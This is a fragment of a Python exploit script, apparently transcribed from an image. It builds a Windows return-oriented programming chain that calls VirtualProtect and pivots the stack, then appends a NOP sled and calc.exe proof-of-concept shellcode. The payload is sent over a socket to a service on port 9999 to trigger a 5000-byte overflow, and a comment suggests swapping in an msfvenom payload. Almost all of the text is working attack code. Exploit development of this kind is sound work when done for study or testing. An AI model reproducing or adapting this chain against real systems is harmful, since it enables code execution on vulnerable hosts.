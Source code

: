 ```python
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77bd6b18)  # 0x77bd6b18: add eax, 0x02 ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e942cb)  # 0x77e942cb: mov dword [edx], eax ; pop esi ; pop ebp ; retn 0x000C ;  (1 found)
rop2 += struct.pack ('<L', 0x41414141)  # padding to compensate for pop esi instruction in the above ROP gadget
rop2 += struct.pack ('<L', 0x41414141)  # padding to compensate for pop ebp instruction in the above ROP gadget

# Now we need to return to where the VirutalProtect call is on the stack.
# ECX contains a value around the old stack pointer at this time (from the beginning). Put ECX into EAX
# and decrement EAX to get back to the function call - and then load EAX into ESP.
# Restoring the old stack pointer here.
rop2 += struct.pack ('<L', 0x77e4a5e6)   # 0x77e4a5e6: mov eax, ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x41414141)   # padding to compensate for retn 0x000C in the flNewProtect ROP gadget
rop2 += struct.pack ('<L', 0x41414141)   # padding to compensate for retn 0x000C in the flNewProtect ROP gadget
rop2 += struct.pack ('<L', 0x41414141)   # padding to compensate for retn 0x000C in the flNewProtect ROP gadget
rop2 += struct.pack ('<L', 0x41ac863b)   # 0x41ac863b: dec eax ; dec eax ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x41ac863b)  # 0x41ac863b: dec eax ; dec eax ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77d6fa6a)   # 0x77d6fa6a: xchg eax, esp ; ret  ;  (1 found)

# Padding between ROP Gadgets and shellcode. Arbitrary number (just make sure you have enough room on the stack)
padding2 = "\x90" * 250

# calc.exe POC payload created with the Windows API system() function.
# You can replace this with an msfvenom payload if you would like
shellcode = "\x31\xc0\x50\x68"
shellcode += "\x63\x61\x6c\x63"
shellcode += "\x54\xbe\x77\xb1"
shellcode += "\xfa\x6f\xff\xd6"

# 5000 byte total crash
filler = "\x43" * (5000-len(command)-len(crash)-len(parameters)-len(padding)-len(rop)-len(padding2)-len(padding2))
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.16.55.148", 9999))
s.send(command+crash+rop+parameters+padding+rop2+padding2+shellcode+filler)
s.close()
```
